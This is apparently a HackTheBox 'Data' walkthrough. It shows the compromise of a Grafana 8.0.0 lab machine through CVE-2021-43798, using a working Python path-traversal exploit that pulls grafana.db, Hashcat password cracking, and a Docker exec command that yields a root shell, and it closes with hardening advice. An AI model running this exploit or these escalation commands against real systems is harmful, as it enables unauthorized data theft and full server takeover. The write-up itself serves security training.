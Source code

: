 ![](images/image0.png)

# Data HackTheBox Walkthrough

This report documents a full exploitation chain of a vulnerable Grafana 8.0.0 instance, 
showcasing reconnaissance, exploitation of CVE-2021-43798 (Grafana Path Traversal), 
database extraction, credential cracking, privilege escalation, and final root compromise via Docker.

---

## 1. Initial Reconnaissance

We begin with a full Nmap scan to identify open ports, running services, and potential attack surfaces:

```bash
nmap -p- -Pn 10.129.234.47 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.234.47 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.234.47 -v --script vuln -oN nmap_vuln.txt
```

![](images/image3.png)

Port **3000** exposed a **Grafana v8.0.0** web interface:

![](images/image5.png)

---

## 2. Exploitation: Grafana Path Traversal (CVE-2021-43798)

Using Metasploit, we validated the existence of the vulnerability and confirmed successful exploitation output:

![](images/image4.png)

To deepen our access, we analyzed the response and determined that the target was susceptible to directory traversal.  
We referred to the official analysis:  
[Dissecting the Grafana Path Traversal Vulnerability](https://ethicalhacking.uk/cve-2021-43798-dissecting-the-grafana-path-traversal-vulnerability/#gsc.tab=0)

---

## 3. Database Extraction

Instead of targeting `/etc/passwd`, we modified the exploit to retrieve Grafana’s internal SQLite database from:

`/var/lib/grafana/grafana.db`

### Modified Python Exploit

```python
import sys
import requests

def main():
    if len(sys.argv) != 3:
        print("Usage: python exploit_fixed.py <IP> <port>")
        sys.exit(1)

    ip = sys.argv[1]
    port = sys.argv[2]
    url = f"http://{ip}:{port}/public/plugins/alertlist/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/var/lib/grafana/grafana.db"
    output_file = "grafana.db"

    try:
        print(f"[*] Downloading database from {url}")
        response = requests.get(url, timeout=10)

        if response.status_code == 200:
            with open(output_file, 'wb') as f:
                f.write(response.content)
            print(f"[+] Database saved successfully to {output_file}")
            print(f"[*] Now you can open it with: sqlite3 {output_file}")
        else:
            print(f"[-] Failed to download file. Status code: {response.status_code}")
    except requests.exceptions.RequestException as e:
        print(f"[-] An error occurred: {e}")

if __name__ == "__main__":
    main()
```

Execute:

```bash
python exploit_fixed.py 10.129.234.47 3000
```

![](images/image9.png)

---

## 4. Database Analysis & Credential Extraction

Once downloaded, the SQLite file was inspected to identify relevant tables and columns within the `user` schema:

![](images/image1.png)

We extracted password hashes and transformed them for **Hashcat** compatibility using:  
[Grafana2Hashcat Tool](https://github.com/iamaldi/grafana2hashcat)

```bash
python3 grafana2hashcat.py ../hashes.txt
```

We then cracked the user credentials using **Hashcat**:

```bash
hashcat -m 10900 hashcat_hashes.txt --wordlist rockyou.txt
```

![](images/image11.png)

Recovered credentials granted us access via SSH to **boris**, obtaining the **user flag**:

![](images/image8.png)

---

## 5. Privilege Escalation via Docker Misconfiguration

Upon running privilege enumeration:

```bash
sudo -l
```

We discovered Docker execution privileges:

![](images/image13.png)

We listed mounted devices and verified container runtime:

```bash
mount
ps auxww | grep docker
```

![](images/image14.png)
![](images/image6.png)

Then, we exploited Docker to spawn a privileged root shell:

```bash
sudo docker exec -it --privileged --user root e6ff5b1cbc85cdb2157879161e42a08c1062da655f5a6b7e24488342339d4b81 bash
```

![](images/image15.png)

We mounted the main filesystem and retrieved the **root flag**:

```bash
mount /dev/sda1 /mnt/
```

---

## 6. Conclusion

This assessment highlights a complete compromise chain starting from a **Grafana web service** to **root-level access** via Docker misconfiguration.  

**Key findings:**

- Grafana 8.0.0 vulnerable to CVE-2021-43798 allowed arbitrary file read.  
- Extracted `grafana.db` exposed user password hashes.  
- Weak credentials allowed SSH login to an internal user.  
- Docker misconfiguration granted root privileges to any sudo-capable user.

**Security recommendations:**

- Update Grafana to the latest stable version.  
- Restrict Grafana’s file system access and network exposure.  
- Implement strict password complexity and enforce rotation policies.  
- Avoid granting Docker or privileged sudo permissions to non-admin users.  
- Regularly monitor configuration drift and audit container privileges.

---
